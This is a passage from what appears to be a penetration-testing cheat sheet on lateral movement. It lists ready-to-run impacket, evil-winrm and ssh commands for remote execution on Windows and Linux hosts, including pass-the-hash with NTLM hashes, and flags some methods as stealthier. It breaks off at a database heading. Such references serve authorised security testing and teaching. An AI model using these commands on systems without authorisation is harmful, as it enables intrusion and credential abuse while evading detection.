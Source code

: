 **PSExec (requires local admin):**
```bash
# With password
impacket-psexec DOMAIN/username:password@TARGET

# With hash
impacket-psexec -hashes :NTLM_HASH username@TARGET
```

**WMIExec (stealthier):**
```bash
# Doesn't write to disk
impacket-wmiexec DOMAIN/username:password@TARGET
```

**Evil-WinRM (if WinRM enabled):**
```bash
# With password
evil-winrm -i TARGET -u username -p 'password'

# With hash
evil-winrm -i TARGET -u username -H NTLM_HASH
```

**SMBExec:**
```bash
impacket-smbexec DOMAIN/username:password@TARGET
```

**AtExec (scheduled task):**
```bash
# Single command execution
impacket-atexec DOMAIN/username:password@TARGET "whoami"
```

### Linux Remote Execution

**SSH:**
```bash
# Single command
ssh user@TARGET "whoami"

# Interactive shell
ssh user@TARGET

# With key
ssh -i key user@TARGET
```

---

## Database Lateral Movement

### MySQL/MariaDB
